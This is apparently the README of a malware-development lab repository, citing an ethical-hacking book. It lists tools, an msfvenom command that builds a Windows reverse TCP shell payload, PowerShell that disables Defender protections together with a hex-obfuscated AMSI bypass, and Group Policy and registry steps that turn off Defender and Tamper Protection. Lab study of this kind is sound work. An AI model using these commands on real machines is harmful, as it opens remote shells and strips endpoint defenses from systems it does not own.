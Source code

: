 # Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 VM
- Parrot 


# Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

Turn off the defender
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

// Turn off Virus detection
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`

// 02
```powershell
# WIN + R 
regedit
```
- Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
The setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4

# References
- Most of codes are from [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

